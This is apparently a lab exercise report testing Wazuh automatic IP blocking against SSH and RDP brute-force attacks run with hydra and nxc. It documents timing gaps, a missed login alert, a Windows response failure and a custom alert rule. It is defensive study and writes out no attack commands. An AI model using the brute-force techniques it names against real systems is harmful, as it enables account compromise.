**Goal:** move from *detect* to *detect and contain*: when a brute force is detected, have Wazuh block the attacker's IP automatically, then remove the block after a timeout. Tested on both Linux (SSH) and Windows (RDP), and checked whether containment really happens in time.

**Configuration** (manager `ossec.conf`, full blocks in [config/active-response.xml](config/active-response.xml)):

| Response | Trigger | Script | Where | Timeout |
|---|---|---|---|---|
| SSH auto-block | 5763 SSH brute force (L10) | `firewall-drop` (iptables) | the attacked host (`local`) | 180 s |
| RDP auto-block | 101010 RDP brute force succeeded (L14) | `netsh` (Windows Firewall) | the attacked host (`local`) | 180 s |

The host's lab IP and the Windows endpoint were added to the active-response whitelist, so a response can never lock the analyst out.

### 14.1 Linux SSH: the block works, but too late

hydra from Kali (10.10.10.130) against a lab-only user on the Wazuh server:

| Time (UTC) | Event |
|---|---|
| 12:44:12 | First failed password |
| 12:44:16 | Rule **5763** (brute force, L10) fires → `firewall-drop add` for 10.10.10.130 |
| 12:44:17 | **`Accepted password for testuser from 10.10.10.130`** in the source log |
| 12:44:18 | Rule 651 "Host Blocked": iptables `DROP all 10.10.10.130`, ping and SSH from Kali fail |
| 12:47:17 | Automatic `delete` exactly 180 s later, Kali reachable again (rule 652) |

**Finding 1: containment is not prevention.** The block landed about 2 seconds after detection, but hydra had already found the password and logged in one second earlier. Reproduced on a second run (login 13:32:57, block 13:32:59). An analyst who sees only "Host Blocked" would wrongly assume the attack failed; the password is compromised and must be reset.

**Finding 2: the first successful login produced no alert.** The source log shows the accepted login, but alerts.json held no 5715, 40112 or 100800 for it. `ossec.log` shows the logcollector refreshing its journald position "due to rotation" at 12:44:18, the same second, which is the most likely reason the event was skipped (not proven: archives were off). A normal SSH login afterwards alerted correctly, and on the re-run the login fired **100800 at level 14**, so this was a one-off pipeline loss, not a rule problem.

**Finding 3: the block itself is nearly invisible.** Built-in rules 651/652 are level 3 with no MITRE mapping.

**Custom rule 101100:** raises the block to level 8 and tells the analyst what to check next.

```xml
<group name="local,active_response,">

  <rule id="101100" level="8">
    <if_sid>651</if_sid>
    <description>Active Response: attacker $(srcip) auto-blocked by firewall-drop (target user $(dstuser)) - check whether the attacker logged in before the block</description>
  </rule>

</group>
```

On the re-run, 5763 (L10), 100800 (L14) and 101100 (L8) appeared together, so the analyst sees both "the attacker got in" and "the attacker was blocked". No MITRE technique is mapped: this is our response, not attacker behaviour.

### 14.2 Windows RDP: the response runs but cannot block

nxc RDP brute force (8 wrong passwords, then the right one) and a real `xfreerdp3` desktop login from Kali against a lab-only user on the Windows endpoint.

- Custom rule **101010** fired at **level 14** (detection worked).
- The agent ran `netsh.exe` 31 seconds later and logged **`Cannot read 'srcip' from data`**.
- No block alert (651), no Wazuh rule in Windows Firewall, RDP port 3389 still open, and the attacker kept the desktop for more than four minutes.

**Root cause:** the alert carries the attacker IP in `win.eventdata.ipAddress` (10.10.10.130), but the stock response scripts read only `srcip`, which Windows EventChannel alerts do not fill:

```
rule 101010 | srcip present: False | ipAddress: 10.10.10.130
```

**Gap:** Wazuh's built-in Windows active response does not work for Windows logon events out of the box. Possible fixes: a custom response script that reads `win.eventdata.ipAddress`, or blocking at the network edge instead of on the endpoint.

### Result

| Test | Detection | Response |
|---|---|---|
| SSH brute force (Linux) | 5763 L10, 100800 L14 | Blocked in ~2 s, unblocked after 180 s, **but after the attacker had logged in** |
| RDP brute force (Windows) | 101010 L14 | **Not blocked**: `srcip` missing |
| Block visibility | 651 L3 | **101100 L8** with next-step guidance |

Both responses were set back to `<disabled>yes</disabled>` after testing (blocks kept as evidence), so later exercises are not affected; the lab users, RDP and wordlists were removed.

**Lessons:**
- Automated response buys containment, not prevention: after any auto-block, check the source log for a successful login ([PB-01](playbooks/PB-01-brute-force-success.md)).
- A response depends on fields, not just rules: the detection can be perfect while the response silently fails.
- Absence of an alert is not proof of absence: the first login only showed up in the source log.

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-07.png"></a><br><sub>firewall-drop adds a block for 10.10.10.130 (rule 5763)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-08.png"></a><br><sub>iptables DROP rule for the attacker</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-09.png"></a><br><sub>Attacker cut off: ping and SSH fail</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-10b.png"></a><br><sub>Events: failures, 5763, block 651, unblock 652</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-10c.png"></a><br><sub>Source log: login accepted 1 s before the block</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-16.png"></a><br><sub>Windows agent: netsh cannot read srcip</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-19.png"></a><br><sub>101010 alert: srcip absent, ipAddress present</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-21b.png"></a><br><sub>Rule 101100 makes the block visible at level 8</sub></td>
  </tr>
</table>
<details>
<summary><b>More screenshots</b> (28)</summary>
<br>

<table>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-00.png"></a><br><sub>Lab clock verified (NTP synchronized)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-01.png"></a><br><sub>Host lab IP, added to the whitelist</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-02.png"></a><br><sub>Before: firewall-drop command present, iptables empty</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-03.png"></a><br><sub>ossec.conf: whitelist and SSH response block</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-04.png"></a><br><sub>Manager restarted, wazuh-execd running</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-05.png"></a><br><sub>Baseline: Kali reaches SSH</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-06.png"></a><br><sub>hydra brute force from Kali</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-10a.png"></a><br><sub>Dashboard: brute force and response</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-10d.png"></a><br><sub>A normal SSH login does alert (5715)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-10e.png"></a><br><sub>ossec.log: journald rotation at the same second</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-10f.png"></a><br><sub>No alert for the brute-forced login</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-11.png"></a><br><sub>Automatic unblock after 180 s</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-12.png"></a><br><sub>Attacker reachable again</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-13.png"></a><br><sub>ossec.conf: Windows netsh response block</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-13b.png"></a><br><sub>RDP target prepared (lab user, port 3389)</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-14.png"></a><br><sub>RDP brute force (nxc) and login (xfreerdp3)</sub></td>
  </tr>
